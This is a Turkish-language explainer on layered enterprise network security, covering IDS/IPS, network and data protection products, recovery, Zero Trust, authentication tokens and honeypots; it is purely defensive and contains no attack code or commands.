Ağınızın uç noktası ya da çevresi değişime uğruyor ve tarihsel sınırlarının ötesine genişliyor. Yakın zamana kadar bu uç nokta bir masaüstü sistem ya da dizüstü bilgisayar olan kullanıcıydı ve bu cihazların güvenliğini sağlamak nispeten daha kolaydı. Bir metafor kullanmak gerekirse: İlk ağ tasarımının uç noktaları ile bugünün uç noktaları arasındaki fark, İkinci Dünya Savaşı'ndaki savaşlar ile şu anki teröre karşı savaş arasındaki fark gibidir. İkinci Dünya Savaşı'ndaki savaşlarda çok net bir şekilde tanımlanmış "cephe hatları" vardı — bir taraf Müttefik güçler, diğer taraf ise Mihver tarafından kontrol ediliyordu. Ancak günümüzde teröre karşı savaşın böyle bir cephe hattı yoktur ve her bir savaş alanı için özelleştirilmiş farklı teknik ve stratejilerle birden fazla alanda savaşılmaktadır.

Günümüzün uzaktan kullanıcı ve mobil bilgi işlem patlamasıyla, ağınızın uç noktası artık eskisi kadar net bir şekilde tanımlanmıyor ve çok hızlı bir şekilde gelişiyor. Bu nedenle, sağlam bir çevre güvenlik sistemine sahip olmak hala genel güvenlik politikanızın kritik bir parçası olsa da, ağınızın fiziksel çevresi artık en iyi "son savunma hattınız" olarak görülemez.

Geliştirdiğiniz herhangi bir politika, birleşik tehdit yönetimi (UTM) sisteminizin gücünden yararlanacak şekilde düzenlenmelidir. Örneğin güvenlik duvarları, antivirüs ve saldırı tespit sistemleri (IDS'ler) şu anda bilinen tüm tehditleri engellemeye çalışarak çalışır — "kara liste" yaklaşımı. Ancak tehditler UTM sistemlerinin yapabildiğinden daha hızlı bir şekilde gelişir, bu nedenle neredeyse her zaman "olaydan sonra" bir yakalama oyunu olur. Belki de daha iyi ve daha kolay yönetilen bir politika, hangi cihazların erişimine izin verildiğini ve ağınızdaki uygulamalarda hangi uygulamaların çalışmasına izin verildiğini özellikle belirtmektir. Bu "beyaz liste" yaklaşımı, hızla gelişen tehdit karmaşıklığı hızına ayak uydurmak için gereken zaman ve enerji miktarını azaltmaya yardımcı olur, çünkü nelerin gireceğini ve neleri dışarıda tutmanız gerektiğini belirlersiniz.

Kullandığınız herhangi bir UTM sistemi iki şeyi yapmanızı sağlamalıdır: hangi uygulamalara ve cihazlara izin verildiğini belirlemek ve bu uygulamaları ve cihazları yönetmek için politika tabanlı bir yaklaşım sunmak. Kritik kaynaklarınızı yetkisiz veri çıkarımına (veya veri sızıntısına) karşı korumanıza, en kalıcı tehditlere (virüsler, kötü amaçlı yazılımlar ve casus yazılımlar) karşı koruma sağlamanıza ve dış savunmalarınıza nüfuz etmek için tasarlanmış sürekli değişen cihaz ve uygulama yelpazesiyle gelişmenize izin vermelidir.

Peki, bu yeni uzak uç noktaları entegre etmek için en iyi strateji nedir? Öncelikle, bu yeni uzak, mobil teknolojilerin giderek yaygınlaştığını ve yakın zamanda ortadan kalkmayacağını fark etmelisiniz. Aslında, büyük olasılıkla bilgi işlemin geleceğini temsil ediyorlar. Bu cihazlar karmaşıklık ve işlevsellik kazandıkça, son kullanıcıları masalarından ayırıyor ve bazı işletmeler için vazgeçilmez araçlar haline geliyorlar. Kurumsal ağlara erişimi olan iOS/Android cihazlar ve BYOD (Kendi Cihazını Getir) ekosistemi artık kurumsal e-posta sistemleriyle entegre olmakta, ağlara erişmekte ve kurumsal düzeyde uygulamaları çalıştırmaktadır. Bu nedenle, kayıp veya çalınma (özellikle cihaz güçlü bir kimlik doğrulama yöntemiyle korunmuyorsa), yetkisiz kablosuz sinyal dinleme ve kurumsal MDM (Mobile Device Management) politikaları dışında kalan cihazlar nedeniyle ağ yöneticileri için ciddi riskler oluşturmaktadır.

Doğal risklerle başa çıkmak için, bu cihazlarla başa çıkmak için etkili bir güvenlik politikası uygulamanız gerekir: hangi koşullar altında kullanılabilirler, kaç kullanıcınızın bunları kullanması gerekir, hangi düzeylerde ve türlerde erişime sahip olacaklar ve kimlikleri nasıl doğrulanacak?

Kablosuz LAN'lar üzerinden erişim isteyen kullanıcılara güçlü kimlik doğrulama eklemek için çözümler mevcuttur. Donanım veya yazılım çeşitlerinden biri olan belirteçler, kimlik bilgilerinin doğrulanması için kullanıcıyı bir kimlik doğrulama sunucusuna tanıtmak için kullanılır. Örneğin, Aladdin Knowledge Systems tarafından sunulan PremierAccess, bir kablosuz erişim noktasından gelen erişim isteklerini işleyebilir ve kullanıcının kimliği doğrulanırsa, bunları ağa geçirebilir.

Mobil bilişime izin verirken ağınızın güvenliğini sağlamak için atacağınız adımların başında, bu teknolojinin kullanıcılarını tam olarak eğitmek gelir. Kullanıcıların, mobil cihazlarının ağınıza (ve nihayetinde genel olarak şirkete) yönelik riskleri ve cihazın hem fiziksel hem de elektronik güvenliğine dikkat etmelerinin mutlak bir gereklilik olduğunu kesin bir şekilde anlamaları gerekir.

Peki, mevcut ağınızı nasıl "temizler ve sıkılaştırırsınız" ya da kaçınılmaz saldırılara karşı koyabilecek yeni bir ağı nasıl tasarlarsınız? Bazı temel noktalara bakalım.



Ağ diyagramı

Şekildeki çizim tipik bir ağ düzeninin nasıl olabileceğini göstermektedir. DMZ dışındaki kullanıcılar ağa güvenli (HTTPS) bir Web veya VPN bağlantısı üzerinden yaklaşır. Çevre güvenlik duvarı tarafından kimlikleri doğrulanır ve bir Web sunucusuna ya da VPN ağ geçidine yönlendirilirler. Geçmelerine izin verilirse, ağ içindeki kaynaklara erişebilirler.

Sadece birkaç düzine kullanıcısı olan bir kuruluşun yöneticisiyseniz, görevinizi (ve illüstrasyon düzenini) yönetmek nispeten kolay olacaktır.  
Ancak birkaç yüz (veya birkaç bin) kullanıcıyı yönetmeniz gerekiyorsa, görevinizin karmaşıklığı büyüklük sırasına göre artar. Bu da iyi bir güvenlik politikasını mutlak bir gereklilik haline getirir.

Önleyici tedbirler, reaktif yaklaşım, gereklidir ve saldırı riskini azaltmaya yardımcı olur, ancak tüm saldırıları önlemek pratikte imkansızdır. Hırsız alarmına benzer şekilde, kötü niyetli faaliyetleri tespit etmek ve teşhis etmek için izinsiz giriş tespiti de gereklidir. İzinsiz giriş tespiti esasen izleme, analiz ve yanıtın bir kombinasyonudur. Tipik olarak bir IDS, insan arayüzü ve görüntüleme için bir konsolu destekler. İzleme ve analiz genellikle pasif teknikler olarak görülür çünkü devam eden faaliyetlere müdahale etmezler. Tipik IDS yanıtı, daha fazla araştırmayı sürdürmeyi veya sürdürmemeyi seçebilecek sistem yöneticilerine bir uyarıdır. Başka bir deyişle, geleneksel IDS'ler, güvenlik olaylarının takip için insan uzmanlığına ve yargısına ihtiyaç duyduğu varsayımı altında, uyarıların ötesinde fazla yanıt sunmazlar.

IDS yaklaşımları en az iki şekilde kategorize edilebilir. Bir yol, algılamanın nerede yapıldığına bağlı olarak ana bilgisayar tabanlı ve ağ tabanlı IDS'leri ayırt etmektir. Bilgisayar tabanlı(Host-Based) bir IDS tek bir bilgisayarı izlerken, ağ tabanlı(Network-Based) bir IDS ağ paketleri üzerinde çalışır. IDS'leri görmenin bir başka yolu da analiz yaklaşımlarıdır. Geleneksel olarak, iki analiz yaklaşımı kötüye kullanım (imza tabanlı) tespiti ve anomali (davranış tabanlı) tespitidir.



Yanlış kullanım tespiti ve anomali tespiti

Şekilde gösterildiği gibi, bu iki görüş birbirini tamamlayıcı niteliktedir ve genellikle birlikte kullanılır.

Uygulamada, izinsiz giriş tespiti birkaç zorlukla karşı karşıyadır: imza tabanlı tespit yalnızca bilinen bir imzayla eşleşen olayları tanıyabilir; davranış tabanlı tespit normal davranışın anlaşılmasına dayanır, ancak "normal" büyük ölçüde değişebilir. Saldırganlar zeki ve kaçamaktır; saldırganlar IDS'yi parçalanmış, şifrelenmiş, tünellenmiş veya önemsiz paketlerle karıştırmaya çalışabilir; bir IDS bir olaya gerçek zamanlı olarak veya bir saldırıyı durduracak kadar hızlı tepki vermeyebilir; ve olaylar herhangi bir zamanda herhangi bir yerde meydana gelebilir, bu da çoklu dağıtılmış sensörlerin korelasyonu ile sürekli ve kapsamlı izleme gerektirir.

Ağ tabanlı IDS'ler genellikle ağ paketlerini keşif, istismar, DoS saldırıları ve kötü amaçlı yazılım belirtileri için izler. Ana bilgisayar tabanlı IDS'leri tamamlayan güçlü yönleri vardır: ağ tabanlı IDS'ler bir ana bilgisayar popülasyonunun trafiğini görebilir; birden fazla ana bilgisayar tarafından paylaşılan kalıpları tanıyabilir; ve saldırıları ana bilgisayarlara ulaşmadan önce görme potansiyeline sahiptirler.



Çeşitli ağ bölgelerini izleyen IDS'ler.

IDS'ler Şekilde gösterildiği gibi farklı görünümler için çeşitli konumlara yerleştirilir. Güvenlik duvarının dışındaki bir IDS, İnternet'teki kötü niyetli faaliyetler hakkında bilgi edinmek için kullanışlıdır. DMZ'deki bir IDS, dış güvenlik duvarından geçerek genel sunuculara ulaşabilen İnternet kaynaklı saldırıları görecektir. Son olarak, özel ağdaki bir IDS, çevre güvenliğini başarıyla aşabilen saldırıları tespit etmek için gereklidir.

IDS'ler pasif tekniklerdir. Genellikle sistem yöneticisine daha fazla araştırma yapması ve uygun eylemi gerçekleştirmesi için bildirimde bulunurlar. Sistem yöneticisi meşgulse veya olayın araştırılması zaman alıyorsa yanıt yavaş olabilir.

Saldırı önleme sistemi (IPS) olarak adlandırılan bir varyasyon, bir IDS'nin geleneksel izleme ve analiz işlevlerini, bir saldırıyı engellemek için güvenlik duvarlarını otomatik olarak yeniden yapılandırmak gibi daha aktif otomatik yanıtlarla birleştirmeye çalışır. Bir IPS, insanların başarabileceğinden daha hızlı bir yanıt vermeyi amaçlar, ancak doğruluğu geleneksel IDS ile aynı tekniklere bağlıdır. Yanıt meşru trafiğe zarar vermemelidir, bu nedenle doğruluk kritik öneme sahiptir.

Ağ güvenliği katmanında sahip olduğumuz kurum ağını izleriz. Bu noktada, pek çok ağ güvenliği sisteminden yararlanırız. Peki bu katmanda saldırganın amacı nedir? ve biz ne yapacağız?



Network Protection

Bu aşamada, saldırgan enfekte ettiği uç nokta üzerinden kurum varlıklarının keşfetmeye([Reconnaissance](https://attack.mitre.org/tactics/TA0043)-Mitre) ve diğer sistemlere yanal hareket([Lateral Movement](https://attack.mitre.org/tactics/TA0008)-Mitre) ile yayılamaya çalışır. Bunun için intrusion atakları gerçekleştirir.

Ağ güvenliğini sağlamak için çeşitli ürünlere kullanırız:

* Firewalls
* IDS/IPS(Intrusion Detection Systems/Intrusion Prevention Systems)
* NAC(Network Access Control)
* NDR(Network Detection and Response)
* PAM (Privileged Access Management)

Hepsinin ne işe yaradığına teker teker değinip uzatmayacağım. Bu sistemlerin ne olduğuna dair tonla yazı google'da mevcut. Ancak, genel olarak hepsi ağ güvenlik çözümleridir.

Ağ trafiğini analiz edip taramaları ve intrusion ataklarını önlemek için kullanılırlar. Bu sistemlerden gelen logları SIEM sistemimizde toplamamız gereklidir. SIEM sistemimizde bu loglar analiz edilerek şüpheli ağ aktiviteleri görülebilir ve kaynak hostlar tespit edilebilir.

Firewall ile tespit ettiğimiz zararlı IPleri bloklayıp saldırganların kurumumuza zarar vermesini engelleyebiliriz. IDS/IPS sistemleri ise kurum ağındaki intrusion ataklarını tespit edip otomatik olarak engeller. Şayet, saldırganların yaptığı taramalar ve ataklar büyük miktarda ağ trafiği/gürültü yaratır. Bu nedenle tespit edilmesi kolaydır. Ancak bu durumu farkında olan saldırgan fazla gürültü çıkarmadan işini halletmeye çalışabilir. Taramalarını yavaşlatarak kalabalık ağ trafiği içinde görünürlüğünü azaltabilir. Ağ güvenlik ürünleri her ne kadar etkili olsalarda aşılamaz değillerdir.

Uç nokta güvenlik ürünleri ve ağ güvenlik ürünleri aşılamaz olmamalarının yanında aşmaları için saldırganlara engel teşkil ederler. Bu sistemleri aşmakla uğraşan saldırganlar vakit kaybeder ve yavaşlarlar. Bu durum, saldırının güvenlik uzmanlarınca tespit edilmesi için bir zaman oluşturur. Kimi siber saldırılar haftalar hatta aylar sürebilmektedir. Daha önce de dediğim gibi bu saldırıyı fark edecek güvenlik uzmanlarının yokluğunda saldırgan yavaşda olsa yine yoluna devam edecektir.

### Katman 4: Veri Koruması (Data Protection) - Son Sığınak

Bir saldırı tespit edilip analiz edildiğinde, sistem yöneticilerinin saldırıya uygun bir yanıt vermesi gerekir. Güvenlikteki ilkelerden biri, yanıtın tehditle orantılı olması gerektiğidir. Açıkçası, yanıt koşullara bağlı olacaktır, ancak çeşitli seçenekler mevcuttur. Genel olarak, kötü niyetli trafiği engellemek, yavaşlatmak, değiştirmek ya da yönlendirmek mümkündür. Her olası yanıtı tanımlamak mümkün değildir. Burada yalnızca iki yanıtı açıklayacağız: karantina ve geri izleme.

* **Karantina**: Bilgisayar güvenliğinde dinamik karantina, bulaşıcı hastalıklar için karantinaya benzer. Özellikle zararlı yazılım bağlamında, virüslü bir bilgisayarın diğer bilgisayarlara bulaşmasını önlemek uygun bir yanıttır.
* **Geri İzleme**: Bir saldırının kritik yönlerinden biri, failin kimliği veya konumudur. Ne yazık ki, IP ağlarında bir saldırganın bulunması neredeyse imkansızdır çünkü:   
  - IP paketlerindeki kaynak adresi kolayca taklit edilebilir (sahte)  
  - Yönlendiriciler tasarımları gereği iletilen paketlerin kaydını tutmazlar.  
  - Saldırganlar saldırılarını gerçekleştirmek için bir dizi aracı bilgisayar (zombiler olarak adlandırılır) kullanabilir.

Aracılar genellikle bir açık veya kötü amaçlı yazılım tarafından ele geçirilen ve saldırganın kontrolüne verilen masum bilgisayarlardır. Pratikte, bir saldırıyı en yakın aracıya kadar takip etmek mümkün olabilir, ancak bir saldırıyı gerçek saldırgana kadar takip etmeyi beklemek çok fazla olabilir.

Bir saldırı sonrası kurtarma konusunun da plana dahil edilmesi önemlidir. Bu ağın yeniden yapılandırılması, istismar edilen açıklığı kapatma gibi konuları içerir. Giriş noktasının tespit edilmesi zaman alabilir. Bunun yanı sıra hasar tahmini yapılmalıdır, ne alındığı veya ele geçirildiği, kötü niyetli olup olmadığı gibi. Etkilenen sistemde kod varsa, nasıl en verimli şekilde çıkarılıp temizleneceği de düşünülmelidir. Şirketin e-posta sisteminde bir virüs olduğu durumda, e-posta gönderme ve alma işlemleri günlerce durdurulabilir. Saldırı dosyaları yok edildiyse ağın nasıl yeniden yapılandırılacağı tartışılmalıdır. Bu genellikle arşivlenmiş yedeklerden makinelerin yeniden yüklenmesinden daha fazlasını gerektirecektir. Kurtarma sürecini hızlandırmak ve analiz çabalarını etkilememek için çeşitli adımlar atılmalıdır. Felaket kurtarma planının düzenli olarak gözden geçirilmesi, mevcut ihtiyaçları karşıladığından emin olmak için gereklidir. Bu planın tüm departmanları temsil etmesi önemlidir ve yeni tehdit bildirimlerini, yazılım yamalarını, güncellemeleri ve çalışan devirlerini ele almalıdır.

Son katmanımız olan veri güvenliği katmanında bir veri ihlalini(data breach) önlemek için bazı sistemler kullanılır. Peki bu katmanda saldırganın amacı nedir? ve biz ne yapacağız?

Data Protection

Önceki aşamalarda artık saldırgan kurum ağını tanımış ve pek çok sisteme yayılmış durumdadır. Dolayısıyla veritabanlarının(database) olduğu sunuculara da erişebilmiştir. Artık amacı bu kıymetli veriyi dışarı çıkarmak ve saldırısını nihayetlendirmek([Impact](https://attack.mitre.org/tactics/TA0040)-Mitre) olacaktır. Bir siber saldırının pek çok hedefi olabilir. Ama genelde, fidye yazılımı (ransomware), veri ihlali (data breach) ve hizmet kesintisi (service stop) etkisine sahiptir.

Bizim senaryomuzda ise banka kullanıcılarının kredi kart bilgileri hedeflendiğini varsayalım. Saldırgan veritabanlarına erişip ilgili veriyi bulduktan sonra bu veriyi dışarı çıkarmalıdır.

Bu noktada biz ne yapacağız? Veri güvenliği ürünlerine değinelim:

* Data Encryption Software
* DLP(Data Loss Prevention)
* Backup and Recovery Solutions
* IAM(Identity and Access Management)

Bu ürünlerin amacı veriye erişimi denetlemek, veriyi korumak ve veri ihlalini engellemektir. Yedekleme sistemleri ile olası veri kayıplarının önüne geçilir, veri şifreleme sistemleriyle veriler korunur, DLP sistemi ile ihlaller önlenir, IAM sistemi ile veriye erişim denetlenir.

Her ne kadar bu sistemler doğru yapılandırılmış olsa da daha önce bahsettiğimiz ağ güvenliği ve uç nokta güvenliği ürünleri gibi aşılamaz değildir. Saldırgan küçük miktarlarda veri kaçırarak DLP'den kaçınabilir. Eline geçen şifreli veriyi uğraştırıcı da olsa kırabilir. Hatta yedekleme sistemlerindeki veriyi imha edebilir. Ve saldırısını nihayetlendirebilir.

---

## Geleceğe Bakış: Reaktif Refleksten Proaktif Stratejiye Geçiş

Bu sonuç bölümü, mevcut ve gelecekteki tehdit ortamına ilişkin üst düzey bir stratejik genel bakış sunmak için aktör profillerinden elde edilen bulguları sentezleyecektir.

* **Kimliğin Önceliği:** Açık ve genel bir eğilim, kötü amaçlı yazılım merkezli saldırılardan kimlik tabanlı sızmalara doğru bir kaymadır. Düşmanlar, "kırmak" yerine "giriş yapmak" için oltalama, parola püskürtme ve sosyal mühendislik yoluyla geçerli kimlik bilgilerini ele geçirmeye odaklanmaktadır.
* **"Hacktivist" Kimliğinin Yükselişi:** Özellikle Rusya ve İran gibi ulus-devletler, makul inkâr edilebilirlik için bir araç olarak ve etki operasyonlarını güçlendirmek için sahte hacktivist gruplarını giderek daha fazla kullanmaktadır.
* **Tedarik Zinciri ve Güvenilir İlişkilerin Vektör Olarak Kullanılması:** APT29 (SolarWinds) ve APT10 (Cloud Hopper) gibi sofistike aktörler, çok sayıda aşağı akış hedefine erişim sağlamak için yazılım satıcılarını ve MSP'leri ele geçirmenin yüksek etkili potansiyelini göstermiştir.
* **Casusluk ve e-Suç Arasındaki Çizgilerin Bulanıklaşması:** APT41 (Çin) gibi grupların ikili görev profilleri ve tüm Kuzey Kore siber aygıtı, casusluk ve finansal kazanç motivasyonlarının artık birbirini dışlamadığını göstermektedir.

* **Sıfır Güven Zihniyetini Benimseyin:** Kimlik ve "yerel araçları kullanma" odaklı saldırılar göz önüne alındığında, geleneksel çevre savunması artık geçerliliğini yitirmiştir. Savunmalar, "asla güvenme, her zaman doğrula" ilkesi üzerine inşa edilmelidir.
* **Kimlik Çevresini Güçlendirin:** Bu, oltalama saldırılarına dayanıklı Çok Faktörlü Kimlik Doğrulama (MFA) uygulanmasını, eski kimlik doğrulama protokollerinin ortadan kaldırılmasını ve sağlam Kimlik ve Erişim Yönetimi (IAM) ile Ayrıcalıklı Erişim Yönetimi (PAM) kontrollerinin uygulanmasını içerir.
* **Sofistike Tespit Mühendisliği Geliştirin:** Savunmalar, imza tabanlı tespitin ötesine geçmeli ve ele geçirilmiş hesaplarla ve meşru araçların kötü amaçlı kullanımıyla ilişkili anormal davranışları belirlemek için davranışsal analitik (UEBA) üzerine odaklanmalıdır.
* **Tehdit İstihbaratını Entegre Edin ve İlişkilendirin:** Adlandırma karmaşasının da gösterdiği gibi, kuruluşlar tek bir istihbarat kaynağına güvenemez. Temel bir yetenek, tehdit ortamının kapsamlı bir operasyonel resmini oluşturmak için birden fazla sağlayıcıdan gelen istihbaratı alma, ilişkilendirme ve çakışmaları çözme yeteneğidir.

APT grupları, uluslararası ilişkilerde ve ulusal güvenlikte kalıcı ve dinamik bir tehdit unsuru olmaya devam etmektedir. Bu tehditlere karşı koymak, yalnızca teknik savunma mekanizmaları kurmayı değil, aynı zamanda aktörlerin motivasyonlarını, stratejik hedeflerini ve gelişen taktiklerini anlamayı gerektiren derinlemesine ve sürekli bir tehdit istihbaratı çalışması gerektirmektedir.

### 7.1. Zero Trust (Sıfır Güven) Zihniyeti

  <strong style="color: #10b981; font-size: 1.1em;">✅ Zero Trust (Sıfır Güven) Olgunluk Kontrol Listesi</strong>
  <ul style="margin: 8px 0 0 0; padding-left: 20px; font-size: 0.95em; line-height: 1.6; color: #9ca3af;">
    <li><strong>Asla Güvenme, Her Zaman Doğrula:</strong> Ağ içindeki hiçbir cihaz veya kullanıcı otomatik olarak güvenilir sayılmaz.</li>
    <li><strong>En Düşük Ayrıcalık İlkesi (Least Privilege):</strong> Kullanıcılar yalnızca işlerini yapacak kadar yetkiye sahip olmalıdır.</li>
    <li><strong>Mikro-Segmentasyon:</strong> Ağ küçük hücrelere bölünerek yanal hareket (lateral movement) engellenmelidir.</li>
    <li><strong>Sürekli İzleme ve Analiz:</strong> Her kimlik doğrulama, cihaz durumu ve işlem anlık olarak denetlenmelidir.</li>
  </ul>

### 7.2. Kimlik Çeperinin Tahkim Edilmesi

Geleneksel olarak çalışanlar olarak da bilinen kullanıcılar, bir şirketin savunma zırhındaki en zayıf halka olmuştur. Kuruluş için gerekli olsalar da, ağınızın başına gelmeyi bekleyen bir kabus olabilirler. Kaynaklara erişimlerini kontrol ederken ağ içinde çalışmalarına nasıl izin verirsiniz? Kullanıcı kimlik doğrulama sisteminizin kullanıcılarınızın kim olduğunu bildiğinden emin olmalısınız.

Kimlik doğrulama, basitçe bir kullanıcının kimlik iddiasının geçerli ve gerçek olduğunu kanıtlamaktır. Kimlik doğrulama bir çeşit "kimlik kanıtı" gerektirir. Ağ teknolojilerinde, fiziksel kanıt (ehliyet veya diğer fotoğraflı kimlik gibi) kullanılamaz, bu nedenle kullanıcıdan başka bir şey almanız gerekir. Bu da genellikle kullanıcının erişim talep ettiği anda gerçek kimlik bilgilerini sağlaması için bir meydan okumaya yanıt vermesi anlamına gelir.

Bizim amaçlarımız doğrultusunda, kimlik bilgileri kullanıcının bildiği bir şey, sahip olduğu bir şey ya da olduğu bir şey olabilir. Kimlik doğrulama sağlandıktan sonra, yetkilendirme veya giriş izni de olmalıdır. Son olarak, kullanıcıların ağınıza girişlerinin bir kaydını tutmak istersiniz-kullanıcı adı, giriş zamanı ve kaynaklar. Bu, sürecin muhasebe tarafıdır.

Bu, bir kullanıcının kopyalanması zor olan doğal özelliklerini ifade eder. Örnekler şunları içerir:

* **Parmak izi:** Bir kişinin parmak uçlarındaki benzersiz desenler.
* **Yüz Tanıma:** Ayırt edici yüz özellikleri.
* **Ses Tanıma:** Benzersiz ses kalıpları.
* **İris Tanıma:** Gözdeki irisin karmaşık desenleri.

Kullanıcılar genellikle doğum günleri, yıldönümleri, ilk arabaları gibi kişisel bilgileri kimlik doğrulama amaçlı kullanır. Ancak bu bilgilerin güvensiz olduğunu fark etmezler.Bu, yalnızca kullanıcının sahip olması gereken bilgileri ifade eder. En yaygın kimlik doğrulama şeklidir, ancak aynı zamanda ihlallere karşı en savunmasız olanıdır. örnekler**:**

* **Parolalar:** Gizli karakter kombinasyonları.
* **PIN'ler (Personel Identitiy Numbers — Kişisel Kimlik Numaraları):** Sayısal kodlar.
* **Güvenlik Soruları:** Kişisel soruların yanıtları.

Bu tür bilgiler ağ teknolojilerinde sabit parolalar ve PIN'ler olarak kullanılır çünkü kolay hatırlanırlar. Ancak parola veya PIN'in güvenli olabilmesi için bazı şartlar gereklidir, örneğin minimum karakter sayısı veya harf ve rakamların karışımı gibi. Bazı kuruluşlar, maliyetleri düşürmek için kullanıcılara kendi parolalarını belirlemelerine izin verir ve bu zayıf kimlik bilgileriyle erişimi sağlamaya çalışır. Ancak sabit parolalar tahmin edilebilir ve kullanıcının zaten hatırlaması gereken bilgilerin daha da artmasına neden olabilir. Herhangi bir güvenlik sisteminin etkili olabilmesi için daha güçlü bir kimlik doğrulama gereklidir.

Bu kategori, bir kullanıcının sahip olduğu fiziksel nesneleri veya dijital simgeleri içerir. Bunlar şunlar olabilir:

* **Akıllı Kartlar:** Gömülü mikroçiplere sahip fiziksel kartlar.
* **Güvenlik Belirteçleri:** Tek seferlik parola üreten cihazlar.
* **Cep Telefonları:** Kimlik doğrulama kodlarını almak veya biyometrik kimlik doğrulama için kullanılır.
* **Dijital Sertifikalar:** Kimliği doğrulayan elektronik kimlik bilgileri.

Kullanıcıları tanımlamanın en güvenli yolu, (1) sahip oldukları ve ağınızdaki bir kimlik doğrulama sunucusu tarafından "bilinen" bir donanım cihazı ile (2) bildiklerinin bir kombinasyonudur. Günümüzde mevcut olan bir dizi cihaz — jetonlar, akıllı kartlar, biyometrik cihazlar — bir kullanıcıyı daha olumlu bir şekilde tanımlamak için tasarlanmıştır. Benim görüşüme göre iyi bir token bu seçenekler arasında en güvenli olanı olduğundan, burada onlara odaklanıyorum.

**Token**, şifreleme algoritmasının kullanıldığı bir cihazdır ve ağın kimlik doğrulama sunucusu tarafından tanınır. Yazılım ve donanım olmak üzere iki tür token bulunur. Yazılım tokenları kullanıcının masaüstü veya mobil cihazlarına yüklenebilirken, donanım tokenları farklı şekillerde gelir ve bazıları sadece bir düğmeyle çalışırken diğerleri daha ayrıntılı bir tuş takımına sahiptir. Kaybolmaları veya çalınmaları durumunda tokenlar kolayca etkisiz hale getirilebilir. Tokenlar, tek kullanımlık şifreler (OTP) üretir, yani her oturum açma girişimi için geçerli bir şifre sağlar. Belirteçler, programlama yazılımı kullanılarak yerinde veya satıcılar tarafından programlanabilir. Programlama işlemi tamamlandıktan sonra, token hakkında bilgi içeren bir dosya ve seri numarası kimlik doğrulama sunucusuna iletilir. Tokenlar, seri numarası kullanıcı ile ilişkilendirilerek atanır.

Yetkilendirme, kimlik doğrulamadan bağımsızdır. Bir kullanıcının ağa girişine izin verilebilir ancak bir kaynağa erişim yetkisi olmayabilir. Bir çalışanın İK bilgilerine veya bir şirket ortağının gizli veya özel bilgilere erişmesini istemezsiniz.  
Yetkilendirme, bir kullanıcının erişebileceği kaynakları belirleyen bir dizi kural gerektirir. Bu izinler güvenlik politikanızda belirlenir

Kullanıcımıza istenen kaynağa erişim izni verildiğini varsayalım. Ancak kimin hangi kaynağa girdiğini görmek için etkinlik günlüklerini çağırma ve görüntüleme becerisine sahip olmak istiyorsunuz (veya bazı durumlarda sahip olmanız gerekiyor). Bu bilgiler, kullanıcıların finansal veya tıbbi bilgileriyle ya da DoD gizli bilgileriyle ilgilenen veya uluslararası operasyonlar için sertifikasyonu sürdürmek üzere yıllık denetimlerden geçen kuruluşlar için zorunludur.

Hesap, tüm sunucu faaliyetlerinin, özellikle de erişim denemeleri ve bunların başarılı olup olmadığıyla ilgili faaliyetlerin kaydedilmesi, günlüğe kaydedilmesi ve arşivlenmesi anlamına gelir. Bu bilgiler, saklanan ve istediğiniz zaman ya da görüntülemeniz gerektiğinde ulaşabileceğiniz denetim günlüklerine yazılmalıdır. Loglar en azından aşağıdaki bilgileri içermelidir:

* Kullanıcının kimliği
* Talebin tarihi ve saati
* Talebin kimlik doğrulamasını geçip geçmediği ve kabul edilip edilmediği

Uygulamaya koyduğunuz herhangi bir ağ güvenlik sistemi, bu günlükleri belirli bir süre boyunca saklamalı veya arşivlemeli ve sistemden çıkmaya başlamadan önce bu arşivlerin ne kadar süreyle korunacağını belirlemenize izin vermelidir.

İleride, geride kalmamak için ağ güvenliği alanında sürekli gelişmelere ayak uydurmak önemlidir. Bu gelişmeler arasında daha akıllı ve otonom bir süreçle tehditleri ele alma, tehdit dosyalarını güncel tutmak için daha hızlı ve kolay yöntemler geliştirme ve yapılandırmanın dahil olduğu yeni sistemler bulunmaktadır. Ayrıca erişim kurallarının, kimlik doğrulama gereksinimlerinin ve kullanıcı rolü atamalarının özelleştirilmesi de önemli bir esneklik sağlamaktadır. Bu süreçte haber bültenlerine abone olmak, seminerlere ve güvenlik fuarlarına katılmak, beyaz kağıtları okumak ve ihtiyaç halinde ağ güvenliği uzmanlarından destek almak önemlidir. Ucuza kaçmamak ve güvenlik konusunda önde olmak için ödenecek bedel, bir güvenlik ihlalinden veya saldırıdan kaynaklanacak maliyetten daha az olacaktır.

### 7.3. Tehdit Avcılığı (Threat Hunting) ve Honeypot Kültürü

Bir bal küpünün(honeypots) temel fikri, görünüşte savunmasız bir bilgisayara saldırıları çekerek saldırgan teknikleri hakkında bilgi edinmektir. Esasen bir savunma hattından ziyade bir adli tıp aracıdır. Bir bal küpü, başka yerlerde kullanılan saldırı yöntemleri veya gerçekleşmeden önce yakın saldırılar hakkında değerli bilgiler edinmek için kullanılabilir. Bal küpleri araştırma ve üretim ortamlarında rutin olarak kullanılmaktadır.

Bir bal küpünün normal bir bilgisayardan daha özel gereksinimleri vardır. İlk olarak, bir bal küpü meşru hizmetler veya trafik için kullanılmamalıdır. Sonuç olarak, bal küpü tarafından görülen her faaliyet gayrimeşru olacaktır. Örneğin, bal küpleri IDS'lere kıyasla genellikle az veri kaydetse de, IDS verilerinin büyük kısmı güvenlik açısından genellikle ilgi çekici değilken, verilerinde çok az "gürültü" vardır.

İkinci olarak, bir bal küpü tüm faaliyetleri izlemek ve kaydetmek için kapsamlı ve güvenilir yeteneklere sahip olmalıdır. Bir bal küpünün adli değeri, saldırılar hakkında yakalayabileceği ayrıntılı bilgilere bağlıdır.

Üçüncü olarak, bir bal küpü gerçek ağdan izole edilmelidir. Bal küplerinin saldırıları cezbetmesi amaçlandığından, bal küpünün ele geçirilmesi ve ağdaki daha fazla bilgisayara saldırmak için bir fırlatma rampası olarak kullanılması gibi gerçek bir risk vardır.

Honeypot'lar genellikle etkileşim düzeylerine göre düşükten yükseğe doğru sınıflandırılır. Honeyd gibi düşük etkileşimli balküpleri basit hizmetler sunar. Bir saldırgan balküpünü tehlikeye atmayı deneyebilir ancak elde edeceği fazla bir şey olmaz. Etkileşimlerin sınırlı olması, saldırganın bilgisayarın bir bal küpü olduğunu keşfetmesi riskini doğurur. Aralığın diğer ucunda, yüksek etkileşimli bal küpleri daha çok gerçek sistemler gibi davranır. Bir saldırganla etkileşime girmek ve etkinlikleri kaydetmek için daha fazla yeteneğe sahiptirler, ancak ele geçirildiklerinde daha fazla kazanç sağlarlar.

### 7.4. On Adımda Güvenli Bir Kuruluş İnşa Etmek

